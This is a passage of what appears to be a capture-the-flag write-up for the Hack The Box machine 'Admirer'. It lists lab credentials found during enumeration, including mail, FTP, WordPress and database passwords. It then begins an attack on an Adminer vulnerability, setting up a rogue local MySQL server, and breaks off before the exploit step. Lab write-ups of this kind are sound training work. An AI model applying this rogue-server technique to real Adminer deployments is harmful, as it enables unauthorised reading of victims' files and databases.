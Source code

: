 ```shell
#############  
# designers #  
#############  
# Howard  
Email: h.helberg@admirer.htb  
  
# Bernadette  
Email: b.rauch@admirer.htb
```

Some credentials were found in `credentials.txt`

```shell
[Internal mail account]  
w.cooper@admirer.htb  
fgJr6q#S\W:$P  
  
[FTP account]  
ftpuser  
%n?4Wz}R$tTF7  
  
[Wordpress account]  
admin  
w0rdpr3ss01!
```

where the FTP account works and we can download a SQL dump plus the packed version of the site.

some new folders were found, like  `w4ld0s_s3cr3t_d1r` and  `utility-scripts` where the folder `utility-scripts` contains some interesting stuff like: `info.php` and `admin_tasks.php` 

along with that, some database credentials were found: 
```php
db_admin.php  
<?php  
$servername = "localhost";  
$username = "waldo";  
$password = "Wh3r3_1s_w4ld0?";
```

## Attack 
The tool `adminer` has a vulnerability according to: [link](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool) , which can be used in this case to extract information and do further enumeration.

First, set up a local mysql server/service 

```shell 
# start the mysql server/service and login to the management console  
sudo systemctl start mysql  
sudo mysql  
  
# create DB  
CREATE DATABASE admirer;  
  
# create user  
INSERT INTO mysql.user (User,Host,authentication_string,ssl_cipher,x509_issuer,x509_subject) VALUES('user','%',PASSWORD('password1'),'','','');  
  
# tell mysql to re-read config, to activate the changes  
FLUSH PRIVILEGES;  
  
# change DB  
USE admirer;  
  
# fix permissions for the user  
```